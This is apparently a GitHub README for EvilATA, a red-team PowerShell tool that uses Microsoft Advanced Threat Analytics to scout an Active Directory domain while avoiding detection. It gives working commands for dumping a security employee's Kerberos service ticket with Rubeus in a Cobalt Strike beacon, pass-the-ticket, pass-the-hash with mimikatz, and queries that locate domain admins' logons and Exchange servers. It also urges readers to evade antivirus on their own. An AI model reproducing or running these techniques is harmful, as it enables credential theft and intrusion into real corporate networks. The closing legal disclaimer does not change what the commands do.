

```

 ____, __  _, ____, __    ___,   ____, ___,  
(-|_, (-\ |  (-|   (-|   (-|_\_,(-|   (-|_\_,
 _|__,   \|   _|__, _|__, _|  )  _|    _|  ) 
(            (     (     (      (     (      

```

# EvilATA

Advanced Threat Analytics（ATA）是微软推出的企业级域安全监测平台，通过捕获和分析 Kerberos、DNS、RPC、NTLM 等协议的流量，对内网存在的威胁进行检测和告警。

ATA 的防护效果很不错，尤其是针对 Kerberos 流量中域对象可疑活动的监测及时且准确，但对于 NTLM 协议的横向移动检测能力较弱（Pth、Relay）。

ATA 有一项功能可以有效提升甲方安全人员的使用效率：即可以直接在 ATA WEB 平台查询某个域对象（域用户对象、域计算机对象、域安全组对象等）的活动时间线，什么时间做了什么，访问了谁，被谁访问，什么时候有认证行为，都一目了然。



试想如果攻击者在内网取得了 ATA 的访问权限，那么这些信息对其来说同样用处巨大：红队大量域渗透的前期侦查工作均可直接通过 ATA 进行，且可以有效避开安全设备的检测（这是因为不直接与域内的成员机发生交互），例如：

> 1、定位高权限域安全组及其成员；
>
> 2、快速定位域内重要的 AD 组件和基础设施（ADCS、ADFS、DC、SCCM、WSUS、EXCHANGE）；
>
> 3、查看高权限账户或特定账户登录过哪些计算机，以快速针对性打点；
>
> 4、查看目标计算机被哪些用户登录过，以快速针对性打点；
>
> 5、检查威胁事件，判断自身是否暴露；
>
> ...

EvilATA 可以帮助红队人员实现该目标，前提是已取得 ATA 的访问权限。

ATA Server 搭建完成后会新建三个本地安全组（🔗 https://learn.microsoft.com/zh-cn/advanced-threat-analytics/ata-role-groups）：

- - Microsoft Advanced Threat Analytics Administrators
  - Microsoft Advanced Threat Analytics Users
  - Microsoft Advanced Threat Analytics Viewers

通过在 ATA Server 本地组加入用户来赋予权限。

通常来说，企业的安全团队具备对于 ATA 的访问权限，可通过 OU 查询安全、运维相关团队成员发起特定攻击。

只要获取到 HTTP/ata.yourdomain.com 的 TGS 票据，即可访问 ATA（通过 443 端口）。

## Features

* EvilATA 使用 Windows 原生 PowerShell，无需多余编程环境支持；
* 文件结构简单，可直接通过 cobalt strike 利用 PowerShell-import 载入 beacon；
* 利用过程均为 PowerShell 对象输出，灵活性高、格式化输出文件方便二次利用；
* 可输出 CSV、Json、TXT 等格式（只要是 PowerShell 支持的）；
* 混淆、免杀方便（除 Windows Defender）；


EvilATA 基于以下项目开发：

```
https://github.com/PowerShellMafia/PowerSploit
https://github.com/microsoft/Advanced-Threat-Analytics
```

## Installation

### Requirements

* ATA Center Version 1.8+
* PowerShell Version 5.1+ (Win10 default)

### Installation

```
PS c:\> git clone https://github.com/NickYan7/EvilATA.git
PS c:\> . .\EvilATA.ps1

// ** 注意 ** Notice **
// 每次载入 EvilATA 之后，需要首先配置你所在域的 ATA Server 域名
PS c:\> Set-ATACenterURL "ata.yourdomain.com"
```

载入 EvilATA 库时将自动载入 PowerView。目前原版 PowerView 已被标记为恶意，请自行免杀。

## Usage

### 如果您是企业安全人员（Using EvilATA as an enterprise security staff）

以企业安全人员使用 EvilATA 非常简单，其默认已具备了域内查询权限和 ATA 访问权限。只需载入 EvilATA 库，确保 PowerView 没有被拦截即可。

```
PS c:\> . .\EvilATA.ps1
PS c:\> Set-ATACenterURL "ata.yourdomain.com"
PS c:\> Get-ATAUniqueEntity (Get-NetUser administrator).objectguid
PS c:\> Get-ATAUniqueEntity (Get-NetUser administrator).objectguid -Profile
```

EvilATA 提供了 4 项基础 Cmd-Let（即 Abusing Advanced Threat Analytics PowerShell module 所提供的）：

```
Get-ATAMonitoringAlert
Get-ATAStatus
Get-ATASuspiciousActivity
Get-ATAUniqueEntity

PS c:\> man Get-ATAUniqueEntity

NAME
    Get-ATAUniqueEntity

SYNOPSIS
    Get-ATAUniqueEntity is used to retrieve information around unique entities in ATA.


    -------------------------- EXAMPLE 1 --------------------------

    PS C:\>Get-ATAUniqueEntity -Id ff336d33-81f4-458c-b70b-33f0070ffb20

    DnsName                    : 2012R2-DC1.contoso.com
    DomainController           : @{IsGlobalCatalog=True; IsPrimary=True; IsReadOnly=False}
    IpAddress                  :
    IsDomainController         : True
    IsServer                   : True
    OperatingSystemDisplayName : Windows Server 2012 R2 Datacenter, 6.3 (9600)
    SystemDisplayName          : 2012R2-DC1
    BadPasswordTime            :
    ConstrainedDelegationSpns  : {}
    ExpiryTime                 :
    IsDisabled                 : False
    IsExpired                  : False
    IsHoneytoken               : False
    IsLocked                   : False
    IsPasswordExpired          : False
    IsPasswordFarExpiry        : False
    IsPasswordNeverExpires     : False
    IsPasswordNotRequired      : False
    IsSmartcardRequired        : False
    PasswordExpiryTime         :
    PasswordUpdateTime         : 2017-04-17T17:59:57.0826645Z
    Spns                       : {Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/2012R2-DC1.contoso.com, ldap/2012R2-DC1.contoso.com/ForestDnsZones.contoso.com,
                                 ldap/2012R2-DC1.contoso.com/DomainDnsZones.contoso.com, TERMSRV/2012R2-DC1...}
    UpnName                    :
    Description                :
    IsSensitive                : True
    SamName                    : 2012R2-DC1$
    DomainId                   : 7c915dca-0591-4abe-84c6-2522466bed4d
    CanonicalName              : contoso.com/Domain Controllers/2012R2-DC1
    CreationTime               : 2017-04-17T17:59:40Z
    DistinguishedName          : CN=2012R2-DC1,OU=Domain Controllers,DC=contoso,DC=com
    IsDeleted                  : False
    IsNew                      : False
    Sid                        : S-1-5-21-3599243929-1086515894-1402892407-1001
    SystemSubDisplayName       :
    Id                         : ff336d33-81f4-458c-b70b-33f0070ffb20
    IsPartial                  : False
    Type                       : Computer

    The above example retrieves information about the specified unique entity.
```

### 在已加域计算机上利用（Abusing EvilATA on domain-joined computers）

在已加域计算机上利用 EvilATA 比较简单，在已加域计算机上我们默认已具备域内查询权限（即 PowerView 可正常工作）。

1、当我们成功横移至某安全人员的计算机，首先提取其 TGS 票据

```
beacon> powerpick rubeus dump /service:http /user:nick /nowrap
beacon> powerpick [io.file]::WriteAllBytes("c:\users\nick\desktop\http.kirbi",[Convert]::FromBase64String("<base64-code>"))
```

这里的 TGS 票据需要是访问 ata.yourdomain.com 的 HTTP 票据，SPN 为 HTTP/ata.yourdomain.com。

然后在本地导入票据：

```
PS c:\> rubeus ptt /ticket:"c:\users\nick\desktop\http.kirbi"
PS c:\> klist
```

2、此时便可以通过该 HTTP 票据访问 ATA 数据：

```
PS c:\> Get-ATAUniqueEntity "<objectguid>" -Profile | select -ExpandProperty logon* | sort logontime -Descending | ft -auto
```

**EvilATA 通过 ObjectGuid 定位域对象（ATA 也是如此）。** 因此 `-Id` 参数的实参必须是域内一个对象的 ObjectGuid 值。

⚠️ TGS 票据默认有效时长 10 小时。

### 在未加域计算机上利用（Abusing EvilATA on non domain-joined computers）

在未加域计算机上利用，首先需要能够执行 PowerView（PowerView 不支持通过票据认证），那么：

1、首先把未加域计算机的 DNS Server 指向 Domain Controller；

2.1、如果有任意域用户的 `原文口令` ，则使用 `RunAS` ：

```
PS c:\> runas /netonly /user:yourdomain\nick PowerShell
```

2.2、如果有任意域用户的 `NTLM HASH`，则使用 `Pth` ：

```
PS c:\> mimikatz "sekurlsa::pth /domain:yourdomain.com /user:nick /ntlm:<ntlm_hash>" exit
```

通过这两种方式可拿到一个具备域用户基础凭据的 Shell。

3、载入 EvilATA 库，使用 `ptt` 载入安全人员的 HTTP/ata.yourdomain.com 的票据，进行利用：

```
PS c:\> rubeus ptt /ticket:http.kirbi

// EvilATA 中已自动载入 PowerView 库
PS c:\> . .\EvilATA.ps1
PS c:\> Set-ATACenterURL "ata.yourdomain.com"
```


### 示例 1：查询域管理员组中的账户登录了哪些域内计算机及其 IP

**EvilATA 通过 ObjectGuid 定位域对象（ATA 也是如此）。** 因此 `-Id` 参数的实参必须是域内一个对象的 ObjectGuid 值。

```
PS c:\> (Get-NetGroup "domain admins").member | %{Get-NetUser $_} | %{Get-ATAUniqueEntity $_.objectguid -Profile} | select -exp logon* | Add-Member -MemberType ScriptProperty -Name "IPAddress" -Value {(Get-ATAUniqueEntity $this.logoncomputerguid -Profile | select -exp ipaddress* | sort date -Descending)[0].ipaddress} -PassThru | ft -auto
```


### 示例 2：定位 Exchange Server

```
PS c:\> (Get-NetGroup "Exchange Trusted Subsystem").member | %{Get-NetComputer $_} | %{(Get-ATAUniqueEntity $_.objectguid -Profile | select -exp ipaddress* | sort date -Descending)[0]}
```


可以关注的 Property 包括但不限于：

```
AccessedResourceAccountIdToTimeMapping
DateToPrivilegeEscalationPathsMapping
DateToSourceComputerIdToProtocolToCertaintyMapping
GeolocationIdToTimeMapping
Id
IsBehaviorChanged
LogonComputerIdToTimeMapping
OpenSuspiciousActivityCount
SuspiciousActivitySeverityToCountMapping
Type
UpdateTime
```

结合 PowerView 利用 EvilATA，只要你熟悉 PowerShell 中「万物皆是对象」和「管道传输对象」两个概念，便可以拓展出非常多侦查场景，可以极大提高域渗透侦查的效率。

传统的 SAMR 协议查询（即 net * /domain 命令、wmic 命令）如今已经非常容易被检测到，如果你进入一个域后还在执行 `net group "domain admins" /domain` 、 `net user administrator /domain` 这种命令，那么暴露的概率不是 100%，而是 200%。

在域内如果有 ATA 作为安全监测设备（那么可以肯定这家企业对于 AD 的安全建设已在一定水平），则优先利用 ATA 进行侦查；如果没有 ATA，则使用 PowerView 或者 PowerShell AD Module 是比较好的选择（或者 ADFind）。

## Disclaimer

本工具仅面向**合法授权**的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建靶机环境。

为避免被恶意使用，本项目所有收录的 POC 均为理论判断，不存在漏洞利用过程，不会对目标发起真实攻击和漏洞利用。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。**请勿对非授权目标进行扫描。**

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。

在安装并使用本工具前，请您**务必审慎阅读、充分理解各条款内容**，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。

## Todo

> 1、优化安全事件的输出；
>
> 2、debug...

如果有任何建议或者遇到 Bug，欢迎提 Issue。

